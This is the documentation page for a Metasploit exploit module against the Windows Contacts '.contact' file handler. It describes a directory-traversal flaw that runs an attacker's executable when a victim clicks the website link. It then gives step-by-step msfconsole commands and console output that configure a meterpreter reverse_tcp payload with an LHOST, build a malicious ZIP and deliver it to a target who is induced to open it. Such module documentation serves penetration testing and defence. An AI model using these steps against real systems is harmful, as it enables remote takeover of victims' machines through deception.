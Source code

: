 ## Description

12345678901234567890123456789012345678901234567890123456789012345678901234567890
This module allows remote attackers to execute arbitrary code on vulnerable
installations of Microsoft Windows.  User interaction is required to exploit
this vulnerability in that the target must visit a malicious page or open a
malicious file.  The flaw is due to the processing of ".contact" files <c:Url>
node param which takes an expected website value, however if an attacker
references an executable file it will run that instead without warning instead
of performing expected web navigation.  This is dangerous and would be
unexpected to an end user.

Executable files can live in a sub-directory so when the ".contact" website link
is clicked it traverses directories towards the executable and runs.  Making
matters worse is if the the files are compressed then downloaded "mark of the
web" (MOTW) may potentially not work as expected with certain archive utilitys.
The "." chars allow directory traversal to occur in order to run the attackers
supplied executable sitting unseen in the attackers directory.  This advisory is
a duplicate issue that currently affects Windows .VCF files, and released for
the sake of completeness as it affects Windows .contact files as well.

## Vulnerable Application

Windows Contacts
(tested on Windows 10.0.18282)

## Verification Steps

1. `./msfconsole`
2. `use exploit/windows/fileformat/microsoft_windows_contact_remote_code_execution`
3. Configure the payload.  For example: `set PAYLOAD windows/x64/meterpreter/bind_tcp`
4. Configure the payload parameters.  For example: `set LHOST 192.168.1.1`
5. Set the output internal file: `set FILENAME msf.com`
6. Set the name of the contact: `set FULL_NAME John Smith`
7. Set the output of the ZIP to be delivered to the target: `set ZIP John Smith.zip`
8. `run`

## Scenarios

### Exploiting a Windows 10 host

1. Configure the module-specific settings.

```
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > set FILENAME metasploit.com                                                                                                    
FILENAME => metasploit.com
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > set FULL_NAME David Davidson                                                                                                   
FULL_NAME => David Davidson
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > set ZIP David Davidson.zip                                                                                                     
ZIP => David Davidson.zip
```

2. Configure the payload.
```
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > set PAYLOAD windows/x64/meterpreter/reverse_tcp                                                                                
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > set LHOST 192.168.199.148                                                                                                      
LHOST => 192.168.199.148
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > run

[*] Creating 'David Davidson.zip'
```

3. Send the ZIP to the target machine.

4. On the target machine, extract the ZIP file, open the .CONTACT file in the Windows Contacts viewer, and click the URL in the "Website" field.
